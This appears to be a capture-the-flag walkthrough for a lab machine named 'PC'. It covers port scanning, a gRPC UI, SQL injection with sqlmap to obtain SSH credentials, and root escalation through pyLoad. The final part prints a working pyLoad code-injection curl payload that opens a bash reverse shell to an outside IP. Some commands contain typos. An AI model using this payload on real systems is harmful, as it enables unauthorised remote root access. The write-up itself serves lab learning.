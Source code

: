 THE MACHINE IS PC 

TOOLS USED:

NMAP
GRPCUI
SQLMAP


for frist thing we run the nmap for know the ports active, but not olso the first 1024 but all. 
whit this command:

	nmap -p- -Pn IPMACHINE

we find there is two port avible the 22(ssh) and 50053(unknow), serch on internet are find che 50053 is port for gRPC. So we sarch a UI for utiliz this framework and on github we find thet.   

install that: 

	go install github.com/fullstorydev/grpcui/cmd/grpcui@latest

run the program:

	go run ./cmd/grpcui/grpcui.go -plaintext localhost:9019 

after that we open the UI and do this pass: register on the pannel and do the login, take your id and token, go the on the info and insert it. take the request for info and save on file because after this ,we do a sql injaction whit id 

for do this we will use a tool called sqlmap

for first thing we modify che file of request and insert afer the number id this "*" for signal where the sql injaction are start.

After that we run sqlmap with this command: 


	sqlmap -r --bach request.req

it worked , now we can see the credentials for login on ssh of simple user,  name called sau.

login whit it and on the file user , we can find the firt flag.


Now the need  do escalate our privilage. For do that , we use another tool called linepas. run this on the machine for extract the information for possible privialge escalation. 

in the section port, can see there is more ports not open outside like the port 8000 used by pyLoad.

search on in internet the possible exploit for it and we find it, the exploit use the command curl to send a request post where on payload you can insert a executable command by root. so insert reverse shell on the payload , open whit nc to put the machine in listen. the command is this 

	curl -i -s -k -X $'POST' -H $'Host: 127.0.0.1:9000' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary 	$'package=xxx&crypted=AAAA&jk=pyimport+os%3bos.system("/bin/bash+-c+%27bash+-i+>%26+/dev/tcp/10.10.14.47/9999+0>%261%27");f=function%	20f2(){};&passwords=aaaa' $'http://127.0.0.1:9000/flash/addcrypted2'



now we have the root permmision and inside of a file called root.txt you find the last flag.


